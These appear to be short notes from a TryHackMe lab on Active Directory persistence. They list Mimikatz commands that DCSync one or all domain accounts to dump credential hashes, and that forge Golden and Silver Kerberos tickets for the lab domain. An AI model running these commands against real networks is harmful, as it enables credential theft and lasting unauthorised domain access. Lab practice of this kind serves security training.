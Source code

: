 # Persisting Active Directory

### Persistence through Credentials

```batch
lsadump::dcsync /domain:za.tryhackme.loc /user:<Your low-privilege AD Username>
```

DC sync every single account. To do this, we will have to enable logging on Mimikatz:

```batch
log <username>_dcdump.txt 
```

DC Sync all accounts

```batch
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all
```

### Persistence through Tickets

Command to generate Golden Ticket

```batch
mimikatz # kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```

Command to generate SiIver Ticket

```batch
mimikatz # kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```
